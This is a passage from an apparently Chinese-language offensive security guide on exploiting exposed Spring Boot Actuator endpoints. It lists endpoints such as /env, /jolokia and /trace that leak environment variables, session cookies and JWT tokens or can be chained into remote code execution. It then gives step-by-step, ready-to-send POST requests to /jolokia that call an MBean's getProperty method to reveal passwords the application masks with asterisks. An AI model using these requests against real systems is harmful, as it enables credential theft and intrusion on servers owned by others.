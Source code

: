 其中对寻找漏洞比较重要接口的有：

- `/env`、`/actuator/env`
    
    GET 请求 `/env` 会直接泄露环境变量、内网地址、配置中的用户名等信息；当程序员的属性名命名不规范，例如 password 写成 psasword、pwd 时，会泄露密码明文；
    
    同时有一定概率可以通过 POST 请求 `/env` 接口设置一些属性，间接触发相关 RCE 漏洞；同时有概率获得星号遮掩的密码、密钥等重要隐私信息的明文。
- `/refresh`、`/actuator/refresh`
    
    POST 请求 `/env` 接口设置属性后，可同时配合 POST 请求 `/refresh` 接口刷新属性变量来触发相关 RCE 漏洞。
- `/restart`、`/actuator/restart`
    
    暴露出此接口的情况较少；可以配合 POST请求 `/env` 接口设置属性后，再 POST 请求 `/restart` 接口重启应用来触发相关 RCE 漏洞。
- `/jolokia`、`/actuator/jolokia`
    
    可以通过 `/jolokia/list` 接口寻找可以利用的 MBean，间接触发相关 RCE 漏洞、获得星号遮掩的重要隐私信息的明文等。
- `/trace`、`/actuator/httptrace`
    
    一些 http 请求包访问跟踪信息，有可能在其中发现内网应用系统的一些请求信息详情；以及有效用户或管理员的 cookie、jwt token 等信息。

### 0x03：获取被星号脱敏的密码的明文 (方法一)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

#### 利用条件：

- 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

##### 步骤二： jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。

- 调用 `org.springframework.boot` Mbean

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```php
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```php
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
